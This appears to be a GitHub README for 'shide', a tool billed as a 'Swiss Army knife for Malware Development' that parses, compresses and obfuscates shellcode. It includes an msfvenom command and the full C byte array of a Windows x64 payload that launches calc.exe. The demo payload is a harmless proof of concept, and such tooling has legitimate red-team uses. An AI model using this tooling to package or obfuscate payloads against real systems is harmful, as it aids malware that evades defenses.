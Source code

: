 <p align="center">
   <img src="https://github.com/Pengrey/shide/assets/55480558/bd53a0eb-b27b-4ea4-948b-30ed4ccbd687">
   <p align="center">A Swiss Army knife for Malware Development<br>
</p>

# shide
Shide is a simple versatile tool designed for malware developers to quickly and repeatedly apply malware software patterns to their code. With features for parsing, compressing, and obfuscating payloads, as well as the ability to create custom modules.

## Usage
```bash
NAME:
   shide - Obfuscate, compress and parse shellcode

USAGE:
   shide [global options] command [command options] [arguments...]

COMMANDS:
   parse    parse [--language C|Go|Rust] [--bin BINARY_FILE] [--cols COLUMNS](optional) [--out OUTPUT_FILE](optional)
   help, h  Shows a list of commands or help for one command

GLOBAL OPTIONS:
   --help, -h  show help
```

## Example
```bash
$ msfvenom -p windows/x64/exec CMD=calc.exe -f raw -o calc.bin 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
Saved as: calc.bin
$ ./shide parse -l C -b calc.bin
unsigned char Payload[] =
{
        "\xfc\x48\x83\xe4\xf0\xe8\xc0\x00\x00\x00\x41\x51\x41\x50"
        "\x52\x51\x56\x48\x31\xd2\x65\x48\x8b\x52\x60\x48\x8b\x52"
        "\x18\x48\x8b\x52\x20\x48\x8b\x72\x50\x48\x0f\xb7\x4a\x4a"
        "\x4d\x31\xc9\x48\x31\xc0\xac\x3c\x61\x7c\x02\x2c\x20\x41"
        "\xc1\xc9\x0d\x41\x01\xc1\xe2\xed\x52\x41\x51\x48\x8b\x52"
        "\x20\x8b\x42\x3c\x48\x01\xd0\x8b\x80\x88\x00\x00\x00\x48"
        "\x85\xc0\x74\x67\x48\x01\xd0\x50\x8b\x48\x18\x44\x8b\x40"
        "\x20\x49\x01\xd0\xe3\x56\x48\xff\xc9\x41\x8b\x34\x88\x48"
        "\x01\xd6\x4d\x31\xc9\x48\x31\xc0\xac\x41\xc1\xc9\x0d\x41"
        "\x01\xc1\x38\xe0\x75\xf1\x4c\x03\x4c\x24\x08\x45\x39\xd1"
        "\x75\xd8\x58\x44\x8b\x40\x24\x49\x01\xd0\x66\x41\x8b\x0c"
        "\x48\x44\x8b\x40\x1c\x49\x01\xd0\x41\x8b\x04\x88\x48\x01"
        "\xd0\x41\x58\x41\x58\x5e\x59\x5a\x41\x58\x41\x59\x41\x5a"
        "\x48\x83\xec\x20\x41\x52\xff\xe0\x58\x41\x59\x5a\x48\x8b"
        "\x12\xe9\x57\xff\xff\xff\x5d\x48\xba\x01\x00\x00\x00\x00"
        "\x00\x00\x00\x48\x8d\x8d\x01\x01\x00\x00\x41\xba\x31\x8b"
        "\x6f\x87\xff\xd5\xbb\xf0\xb5\xa2\x56\x41\xba\xa6\x95\xbd"
        "\x9d\xff\xd5\x48\x83\xc4\x28\x3c\x06\x7c\x0a\x80\xfb\xe0"
        "\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x59\x41\x89\xda\xff"
        "\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
};

$
```
